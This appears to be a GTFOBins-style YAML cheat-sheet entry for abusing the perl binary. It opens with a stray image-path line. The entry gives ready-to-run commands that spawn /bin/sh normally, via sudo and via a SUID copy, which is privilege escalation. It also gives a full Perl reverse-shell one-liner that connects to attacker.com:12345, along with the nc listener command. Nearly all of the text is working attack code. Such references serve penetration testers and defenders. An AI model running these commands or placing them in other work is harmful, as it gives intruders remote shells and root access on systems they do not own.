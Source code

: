 ```yaml
---
functions:
  exec-interactive:
    - code: perl -e 'exec "/bin/sh";'
  sudo-enabled:
    - code: sudo perl -e 'exec "/bin/sh";'
  suid-enabled:
    - code: ./perl -e 'exec "/bin/sh";'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
---
```

